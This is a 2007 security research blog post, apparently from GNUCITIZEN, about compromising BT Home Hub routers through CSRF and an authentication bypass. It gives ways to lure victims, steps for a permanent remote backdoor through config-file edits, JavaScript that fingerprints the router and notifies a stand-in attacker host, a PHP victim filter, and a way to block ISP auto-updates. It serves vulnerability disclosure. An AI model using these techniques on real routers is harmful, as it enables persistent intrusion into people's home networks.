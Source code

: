 ```yaml
---
title: BT Home Flub Pwnin The BT Home Hub (2)
author: pagvac
date: Tue, 16 Oct 2007 22:02:03 GMT
template: post.pug
---
```


In this post I'll elaborate a bit more on our [demo video](http://stage6.divx.com/user/gnucitizen/video/1722388/BT-Home-Flub) previously released and what the intruder can do to remotely access the Home Hub _anytime and from anywhere_ after it's been been broken into.  You are recommended to read the [first part](/blog/bt-home-flub-pwnin-the-bt-home-hub) of this post if you haven't done so yet.

So here is the attack illustrated in the demo video. The victim user is tricked - through Gtalk - to visit a website that contains malicious code. The malicious code runs in the background and does NOT exploit any vulnerabilities on the victim's browser at all, neither does it rely on ActiveX, therefore it's not picked up by anti-spyware/antivirus software. The malicious code is a simple combination of HTML and JavaScript, which exploits two vulnerabilities on the Home Hub (note that there are other vulnerabilities we found as well):

* CSRF
* Authentication bypass bug (thanks to this the exploit works even if the user has changed the default admin password)

After the victim user visits the malicious website, he's redirected to a funny video of [Techno Viking](http://www.google.com/search?ie=UTF-8&oe=UTF-8&sourceid=navclient&gfns=1&q=techno+viking) hosted by Youtube. Thus, the victim is distracted away from the fact that his router has just been compromised. There are other things we could have done on the malicious website besides a redirect to a Youtube video. For instance, we could have simply embedded third-party content from other websites through iframes in order to distract the victim from the fact that he's been victim of an attack.

### Tricking the victim to visit the evil site

We've been asked by some non-technical users how would the intruder incite the victim to visit the malicious link. Malware criminals are experts at finding ways to attract people to their malicious websites. Well, there are plenty of examples we can give. The following are some:

* Through a chat conversation (i.e.: messenger or IRC)
* Through emails delivered in a mass fashion targeting [UK email addresses](http://mail.google.com/mail/help/intl/en-GB/googlemail.html)
* By placing the malicious link on a popular website where it's common to find user-generated content. i.e.: Youtube, Myspace, Facebook, Bebo ...
* Through a website that claims to offer free porn
* Through a website that claims to offer  free [warez](http://en.wikipedia.org/wiki/Warez)
* Black [SEO](http://en.wikipedia.org/wiki/Search_engine_optimization)
* By setting up a blog through which the audience is [involved emotionally](http://www.spamfighter.com/News_Read_Spamfighter.asp?UID=419) regarding a current issue

### Backdooring the Home Hub PERMANENTLY

Once the router has been compromised the attacker gets an email (as shown in the [demo video](//www.youtube.com/watch?v=i4tkM3UtF1Y)) with the URL needed to access the Home Hub remotely using the "tech support" account - a.k.a. remote assistance. The attacker then logs in using the username 'tech' and a password which was chosen by her and was set when the malicious website was loaded in the victim user's browser. At this point, the intruder can do anything to the router. For instance, because remote assistance gets disabled after 20 minutes of inactivity, the intruder can do the following in order to make sure that she can come back any time to the router to tamper with it:

* Save the Home Hub config file (contains all router settings including the passwords for any services the victim is subscribed to)
* Add the following line in the config file under the `[ servmgr.ini ]` section: `ifadd name=HTTPs group=wan`
* Reload the modified config file so the new changes take place
* Configure the dynamic dns service (if the victim is not currently using it) using the web interface

At this point, the intruder can come back anytime remotely to the Home Hub, even after the remote assistance connection has timed out (happens after 20 mins of inactivity by default). The credentials she would use to login are the same one that were set when the attack took place (username 'tech' and a password of her choice). The cool thing is that although BT Broadband doesn't support static IP addresses, the intruder can simply bypass this restriction and always find the victim router's IP address thanks to it supporting serveral popular (and free) dynamic DNS services!

### Detecting a potentially vulnerable router

When preparing the exploit shown in the video, the malicious code could do either of the following before the actual exploit is submitted to the router:

* do not check if the victim user uses a vulnerable router
* perform some sort of check that concludes with a significant probability whether the victim user's router is vulnerable

The first approach is typically followed by classic worms: the payload is executed no matter what. If the router is vulnerable, then it'll be compromised, otherwise nothing would happen. From the user's end, there is no difference as everything happens in the background.

However, if the intruder wants to be stealth, he will craft the malicious webpage in such a way the exploit is only launched if the victim uses a potentially vulnerable router. This is a more elegant way to perform the attack and minimizes the chances of someone discovering the exploit and making it public.

The following are two simple techniques that can be used. The first technique simply checks if the IP address used by the BT Home Hub is serving a certain image:

    var notifyURL="http://evil.anydomain.com/bthomehubhack/notify.php";
    var imgsrc = 'http://192.168.1.254/images/head_wave.gif';
    var fingerprint_img = new Image();
    fingerprint_img.onerror = function (evt) {
        ; // can't be loaded - couldn't find a vulnerable router
    }
    // only notify attacker if potential vulnerable Thomson Speedtouch / BT Homehub router found
    fingerprint_img.onload = function (evt) {
        C=new Image();
        C.src=notifyURL;
    }

    The second technique simply checks for substrings within the [reverse DNS](http://en.wikipedia.org/wiki/Reverse_DNS_lookup) (PTR record) of the victim router. The following is an example of a reverse DNS record used by a BT Home Hub:

    host86-134-193-152.range86-134.btcentralplus.com

    In PHP we could check for the string 'btcentralplus.com' like this:

    <?php
    $ptr=gethostbyaddr($_SERVER['REMOTE_ADDR']);
    // if string "btcentralplus.com" is contained within victim's reverse lookup
    if(strstr($ptr, "btcentralplus.com")) {
       // then print exploit code
       // EVIL CSRF/AUTH BYPASS CODE GOES HERE!
    }
    ?>

    ### Preventing BT from fixing the vulnerabilities on Hubs that have been owned

    The BT Home Hub has a very neat feature called Auto-Update. The way the feature works is that the BT Home Hub connects regularly to remote servers located on `pbthdm.bt.motive.com`, which can push settings back to the Hub. There have been some concerns over this feature in the Internet community and I can see why. In essence, this feature is a backdoor which allows BT to do anything to your Home Hub remotely. Sure this is meant to be for updates that add new features and/or fix vulnerabilities. The question is, do you trust your ISP to have permanent control of your Internet gateway? I personally don't like the possibility of a disgruntled BT employee being able to tamper with my Home Hub remotely! Not to mention that this feature has [bricked](http://www.digitalspy.co.uk/forums/showthread.php?t=491560) Home Hubs in the past after customizing the configuration.

    An intruder would probably want to avoid any chance of BT disabling her backdoor after auto-updates are applied. Disabling updates can be as easy as changing the following line in the config file to point to a dummy (non-existing) URL. Note that we have NOT tested this idea, but it should work. After all, the intruder can save new changes in the config file using the tech support account.

    server config url=**https://useless-domain.foo/** username=XXXXXXXXXXXXXXXXX password=XXXXXXXXXXXXXXXXX

Perhpaps, the most effective way in which a cracker can break into BT Home Hubs in a mass fashion is by compromising the autoupdate servers. Then, from there, one could push changes back to the Hubs' config files. Imagine someone updating all BT Home Hubs in the UK with remote HTTPs enabled and accessible with a password of her choice. What a botnet would that make! Scary.

### Credits where due

_[pdp](http://www.gnucitizen.org/about/pdp) and I would like to thank Jan Fry and Vijay Thakorlal for helping us testing attacks._
